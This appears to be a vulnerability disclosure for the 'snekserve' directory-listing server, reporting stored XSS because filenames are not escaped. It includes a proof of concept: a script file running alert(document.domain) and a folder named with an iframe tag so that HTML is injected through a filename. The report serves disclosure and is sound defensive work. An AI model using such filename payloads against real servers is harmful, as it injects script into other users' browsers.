 :bug: Description

The `snekserve` project is a `directory listing` server which is vulnerable against `stored XSS` because the `filename` isn't checked correctly, leading to `HTML/JS injection`

:fire: POC

1. Create a PoC file like this:

```html
<!-- malicious.html -->
<script>alert(document.domain)</script>
```

2. Run the following commands: `npm i snekserve -g # Installs the CLI version of the module`
3. `mkdir '<iframe src=..\malicious.html>' # Creates the malicious *HTML formatted* folder`
4. `snekserve # Starts the server`
5. Open a browser and go on http://localhost:8080
6. `XSS` triggered

**Notes:**
The attack can work even if the `malicious file` isn't inside the server it-self, and while the attacker needs a limited access to the `system` to create a new `malicious filename`, it could be possible when it's used among other `ECM` softwares.
